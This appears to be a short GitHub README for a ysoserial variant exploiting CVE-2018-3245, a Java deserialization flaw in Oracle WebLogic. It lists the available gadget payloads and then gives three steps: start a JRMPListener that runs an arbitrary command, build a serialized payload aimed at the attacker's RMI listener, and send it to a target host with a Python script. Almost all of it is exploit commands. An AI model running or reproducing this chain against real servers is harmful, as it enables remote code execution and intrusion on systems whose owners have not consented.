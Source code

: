 # CVE-2018-3245
`java -jar ysoserial-cve-2018-3245.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-3245.jar [payload] '[command]'
Available payload types:
     Payload         Authors   Dependencies
     -------         -------   ------------
     CVE_2018_2893_1 @mbechler
     CVE_2018_2893_2 @mbechler
     CVE_2018_2893_3 @mbechler
     CVE_2018_3245   @mbechler
     JRMPClient      @mbechler
     Jdk7u21         @frohoff
```
## Step 1
`java -cp ysoserial-cve-2018-3245.jar ysoserial.exploit.JRMPListener [listen port] Jdk7u21 [command]`


## Step 2

`java -jar ysoserial-cve-2018-3245.jar  CVE_2018_3245  "[RMI_SERVICE_IP]:[PORT]"  >  poc.ser`

## Step 3

`python weblogic.py [TARGET_HOST] [PORT] poc.ser`


